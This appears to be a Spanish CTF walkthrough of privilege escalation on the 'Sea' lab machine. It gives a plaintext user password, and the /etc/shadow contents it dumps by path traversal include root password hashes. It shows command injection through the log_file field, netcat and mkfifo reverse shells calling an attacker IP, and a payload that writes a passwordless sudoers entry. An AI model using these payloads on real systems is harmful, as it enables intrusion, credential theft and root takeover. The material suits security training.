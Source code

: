 ### Local enumeration

-  User : Amay Password: mychemicalromance

### Atack vector

-  sudo -l 
-  PATH TRAVERSAL -->on localhost:8080 


Si hacemos un sudo -l vemos que amay tiene permisos de sudo en todo 

![[Pasted image 20241122141551.png]]


---



Le quito los permisos a amay con sudo visudo y continuamos con el escalado.

sudo -l no nos permite sudo en la maquina como user amay:
```bash
amay@sea:~$ sudo -l 
[sudo] password for amay: 
Sorry, user amay may not run sudo on sea
```

netstat -tulnp nos muestra el puerto 8080 donde hay un servidor web:
```bash
amay@sea:~$ netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33749         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:7000          0.0.0.0:*               LISTEN      4624/ssh            
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      4914/ssh            
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   

amay@sea:~$ curl -I http://localhost:8080
HTTP/1.0 401 Unauthorized
Host: localhost:8080
Date: Fri, 22 Nov 2024 13:23:59 GMT
Connection: close
X-Powered-By: PHP/7.4.3-4ubuntu2.23
WWW-Authenticate: Basic realm="Restricted Area"
Content-type: text/html; charset=UTF-8


amay@sea:~$ curl -u "amay:mychemicalromance" -I http://localhost:8080
HTTP/1.1 200 OK
Host: localhost:8080
Date: Fri, 22 Nov 2024 13:24:40 GMT
Connection: close
X-Powered-By: PHP/7.4.3-4ubuntu2.23
Content-type: text/html; charset=UTF-8
```

Vamos a crear un puente a nuestro host que mapee el puerto 8080 con la de la maquina

```bash
 ssh -L 8080:localhost:8080 amay@sea.htb -i seakey
```

La maquina nos muestra un panel de control:

![[Pasted image 20241122142646.png]]


  # PATH TRAVERSAL 

Cuando le damos a analyze el servidor manda la siguiente peticion POST
![[Pasted image 20241122143542.png]]

Podemos modificar el POST para que apunte a por ejemplo /etc/shadow

![[Pasted image 20241122143711.png]]


## /etc/shadow

![[Pasted image 20241122143748.png]]

Podemos ver el /etc/shadow pero el sistema estara usando cat por detras, podemos injectar comandos?

## RCE
![[Pasted image 20241122145305.png]]

Modificando la inejccion descubro que el caracter ";" para finalizar el comando no funciona pero si el "+# " para terminar donde el "+" se url-encodea como un espacio en la peticion 

La peticion post final se ve asi 
```http
POST / HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost:8081/
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Origin: http://localhost:8081
Authorization: Basic YW1heTpteWNoZW1pY2Fscm9tYW5jZQ==
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

log_file=/etc/shadow%26%26id+#&analyze_log=
```
Donde:
- && --> se URL-encodea como %26%26

**Response:**
```http
root:$6$llVzHhr7xHrvx1wJ$gH0PLbyPaIOqLrpjpzGZbM2bZ/iHaOfv/bj1YRrktVeZ8.1KQ0Jr1Rv/TL/3Qdh84Fwec1UhX2v0LVAGsuzq.0:19775:0:99999:7:::
daemon:*:19430:0:99999:7:::
bin:*:19430:0:99999:7:::
sys:*:19430:0:99999:7:::
sync:*:19430:0:99999:7:::
games:*:19430:0:99999:7:::
man:*:19430:0:99999:7:::
lp:*:19430:0:99999:7:::
mail:*:19430:0:99999:7:::
news:*:19430:0:99999:7:::
uucp:*:19430:0:99999:7:::
proxy:*:19430:0:99999:7:::
www-data:*:19430:0:99999:7:::
backup:*:19430:0:99999:7:::
list:*:19430:0:99999:7:::
irc:*:19430:0:99999:7:::
gnats:*:19430:0:99999:7:::
nobody:*:19430:0:99999:7:::
systemd-network:*:19430:0:99999:7:::
systemd-resolve:*:19430:0:99999:7:::
systemd-timesync:*:19430:0:99999:7:::
messagebus:*:19430:0:99999:7:::
syslog:*:19430:0:99999:7:::
_apt:*:19430:0:99999:7:::
tss:*:19430:0:99999:7:::
uuidd:*:19430:0:99999:7:::
tcpdump:*:19430:0:99999:7:::
landscape:*:19430:0:99999:7:::
pollinate:*:19430:0:99999:7:::
fwupd-refresh:*:19430:0:99999:7:::
usbmux:*:19774:0:99999:7:::
sshd:*:19774:0:99999:7:::
systemd-coredump:!!:19774::::::
amay:$6$S1AGe5ex2k4D5MKa$gTclSeJwvND3FINpZaK0zfUqk6T9IkhlxCn17fNWLx56u.zP/f/4e5YrJRPsM3TRuuKXQDfYL44RyPzduexsm.:19775:0:99999:7:::
lxd:!:19774::::::
geo:$6$5mAIqOze4GJ4s9Zu$P3IgUSHlcCkKpDJ0862IgP5aqaNilEUZDGIm16FiWdxh1A5dfKjmwhMgp3xctHiHZVWGtmKY25cCrILanDPaG.:19934:0:99999:7:::
_laurel:!:19936::::::
uid=0(root) gid=0(root) groups=0(root)
<p class='error'>Suspicious traffic patterns detected in /etc/shadow&&id #:</p><pre>uid=0(root) gid=0(root) groups=0(root)</pre>        </div>

    </div>
</body>
</html>

```

Podemos injectar comandos entonces, podemos enviar una reverse-shell o darle permisos de sudo al user amay

Voy a usar una reverse shell con netcat que saque del siguiente documento
(Rev-shells](https://ironhackers.es/herramientas/reverse-shell-cheat-sheet/)

En la máquina del atacante:

|   |   |
|---|---|
|1|`nc` `-lvp 1234`|

En la máquina de la víctima:

|   |   |
|---|---|
|1|`nc` `-e` `/bin/sh` `10.0.0.1 1234`|

En el caso de **Netcat** podemos encontrarnos el caso de que este instalada una versión de **Netcat** que no soporte la opción _-e_, entonces usaremos el siguiente comando en vez del antes indicado:

|     |                                                                                                           |
| --- | --------------------------------------------------------------------------------------------------------- |
| 1   | `rm` `/tmp/f``;``mkfifo` `/tmp/f``;``cat` `/tmp/f``\|``/bin/sh` `-i 2>&1\|``nc` `10.0.0.1 1234 >``/tmp/f` |
Que url-encodeado se veria asi 

```http
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.184%204440%20%3E%2Ftmp%2Ff
```

# God access
La peticion final se ve asi 


```http
POST / HTTP/1.1
Host: localhost:8081
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost:8081/
Content-Type: application/x-www-form-urlencoded
Content-Length: 182
Origin: http://localhost:8081
Authorization: Basic YW1heTpteWNoZW1pY2Fscm9tYW5jZQ==
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
log_file=/etc/passwd+%26%26rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.184%204440%20%3E%2Ftmp%2Ff%3Bsleep+60+#&analyze_log=
```
![[Pasted image 20241122153243.png]]

Otra opcion es poner a amay en el sudoers file
```bash
/etc/passwd+%26%26+echo+"amay+ALL=(ALL)+NOPASSWD:+ALL"+>+/etc/sudoers.d/amay+#
```
Luego **sudo su** desde el usuario amay y listo.
